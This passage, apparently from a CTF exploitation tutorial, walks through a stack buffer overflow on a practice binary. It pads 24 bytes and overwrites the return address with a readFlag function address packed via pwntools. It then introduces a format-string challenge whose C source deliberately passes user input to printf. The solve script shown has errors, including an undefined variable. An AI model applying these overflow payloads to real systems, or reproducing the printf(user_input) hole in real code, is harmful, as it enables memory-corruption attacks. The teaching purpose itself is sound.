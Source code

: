 before input **`$rip : 0x40074a`** now `$rip : 0x400700` we have successfully change from 4a to 00 (because if we input 24 character the 25 character will be nullbytes which is \x00)

So arrange the payload with padding 24 character and the readFlag address (remember we must change it to little endian first)

to change to little endian form you can use **`pwntool`**

```python
>>> import pwn
>>> pwn.p64(0x00000000004006d7)
b'\xd7\x06@\x00\x00\x00\x00\x00'
```

our payload is nonprintable character so how can we arrange it?  
you can use either

```bash
python -c "print('A'*24 + '\xd7\x06@\x00\x00\x00\x00\x00')" | ./example1
```

or

```python:solve.py
offeset = 24
readFlag = 0x00000000004006d7
payload = b'A' * offeset
payload += p64(vuln)

use

p.sendline(payload)
p.interactive()
```

to send the payload and enter interactive mode and youll get the flag.

**flag `CTF{ch4ng3_th3_progr4m_fl0o0w}`**

### Fstring

---
given the problem in example3.c (fstr0)

```c
// gcc fstr0.c -o fstr0

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readFlag(char* flag) {
        FILE *fptr;
        fptr = fopen("flag.txt", "r");
        fread(flag, sizeof(char), 32, fptr);
}

void vuln() {
        char flag[32];
        char name[256];
        readFlag(flag);
        puts("what's your name?");
        fgets(name, 256, stdin);
        printf("hello, ");
        printf(name);
}

int main() {
        setbuf(stdout, NULL);
```